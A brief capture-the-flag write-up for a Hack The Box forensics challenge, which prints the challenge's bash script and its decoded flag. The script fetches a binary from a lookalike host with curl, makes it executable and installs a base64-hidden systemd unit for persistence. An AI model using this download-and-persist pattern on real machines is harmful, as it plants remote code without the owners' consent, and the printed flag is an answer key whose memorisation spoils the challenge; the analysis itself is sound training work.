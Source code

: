 Extraterrestrial Persistence provides a bash script that looks like this:

![image](https://user-images.githubusercontent.com/80063008/227502771-bc5f9535-1bde-4abb-9474-86e40d46f647.png)

```bash
n=`whoami`
h=`hostname`
path='/usr/local/bin/service'
if [[ "$n" != "pandora" && "$h" != "linux_HQ" ]]; then exit; fi

curl https://files.pypi-install.com/packeges/service -o $path

chmod +x $path

echo -e "W1VuaXRdCkRlc2NyaXB0aW9uPUhUQnt0aDNzM180bDEzblNfNHIzX3MwMDAwMF9iNHMxY30KQWZ0ZXI9bmV0d29yay50YXJnZXQgbmV0d29yay1vbmxpbmUudGFyZ2V0CgpbU2VydmljZV0KVHlwZT1vbmVzaG90ClJlbWFpbkFmdGVyRXhpdD15ZXMKCkV4ZWNTdGFydD0vdXNyL2xvY2FsL2Jpbi9zZXJ2aWNlCkV4ZWNTdG9wPS91c3IvbG9jYWwvYmluL3NlcnZpY2UKCltJbnN0YWxsXQpXYW50ZWRCeT1tdWx0aS11c2VyLnRhcmdldA=="|base64 --decode > /usr/lib/systemd/system/service.service

systemctl enable service.service
```

Decoding the base64 string, we get to see what service was used for persistence and get the flag:

![image](https://user-images.githubusercontent.com/80063008/227503042-68422073-2e97-41e5-b881-45d2b1287a31.png)

HTB{th3s3_4l13nS_4r3_s00000_b4s1c}
